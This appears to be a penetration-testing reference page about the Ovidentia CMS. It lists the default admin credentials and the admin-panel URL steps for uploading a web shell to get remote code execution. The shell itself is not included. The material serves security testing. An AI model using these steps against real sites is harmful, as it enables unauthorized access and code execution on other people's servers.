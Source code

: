 # Web applications - CMS Ovidentia

Ovidentia is an open source CMS developed and maintained since 2001
by the French company CANTICO.

Ovidentia has a relatively low market share and is mostly used by French
non-profit organizations and territorial communities and administrations.  

### Default credentials

The default administrator credentials are:

```
admin@admin.bab:012345678
```

### Administrator to RCE

Access the file upload configuration page and make sure that the web service
has write rights on the currently configured upload folder:

```
/index.php?tg=site&idx=menu4&item=1
```

Then use the administration file manager page to create a folder on the
application:

```
/php/index.php?tg=admfms
```

And configure the access rights on the folder to allows file upload and
others permissions:

```
/php/index.php?tg=admfm&idx=rights&fid=<FOLDERID>
```

Upload file a web shell on the target:

```
/index.php?tg=fileman&idx=displayAddFileForm&id=<FOLDERID>&gr=Y&path=<FOLDERNAME>
```

The uploaded web shell can be accessed at the following URL:

```
/fileManager/collectives/DG0
```
